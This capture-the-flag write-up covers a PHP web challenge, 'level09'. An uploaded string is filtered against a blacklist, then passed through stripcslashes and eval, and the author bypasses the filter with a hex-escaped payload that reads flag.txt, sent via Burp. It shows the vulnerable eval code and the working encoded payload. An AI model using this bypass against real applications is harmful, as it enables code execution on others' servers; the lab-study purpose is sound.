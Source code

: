 ```yaml
---
layout: default
title: level09
---
```


Here we can upload our own `c`, and then it being saved in `/tmp/{something}`
we get the something (which is `sha(time)`) using the `session_id` cookie.

If we wanna access the content, we just need to supply GET parameter `cache_file`, and point to the right file.

Then, we can see it strip slashes from our file, and then eval it.
```php
echo eval (stripcslashes (file_get_contents ($_GET['cache_file'])));
```

The problem is that it filters the content, and replace all with `''`
```php
$fh = fopen('/tmp/' . $randVal, 'w');

fwrite (
    $fh,
            str_replace (
        ['<?', '?>', '"', "'", '$', '&', '|', '{', '}', ';', '#', ':', '#', ']', '[', ',', '%', '(', ')'],
        '',
        $_GET['c']
    )
);
```

And that's where `stripcslashes` enters, if it gets `\x41`, it translates it to `A`, like in C language.
```php
php > echo "\\x41";
\x41
php > echo stripcslashes("\\x41");
A
```

So, we'll use CyberChef to create our payload:
```
echo file_get_contents("flag.txt");
```
and we got:
```
\x65\x63\x68\x6f\x20\x66\x69\x6c\x65\x5f\x67\x65\x74\x5f\x63\x6f\x6e\x74\x65\x6e\x74\x73\x28\x22\x66\x6c\x61\x67\x2e\x74\x78\x74\x22\x29\x3b
```

![cyberChef](./images/level09_cyberChef.png)

Now, just send it using burp, take the `session_id` and send its path in `cache_file` parameter.
 
![FINAL](./images/level09_FINAL.png)

**Flag:** ***`WEBSEC{stripcslashes_to_bypass}`*** 
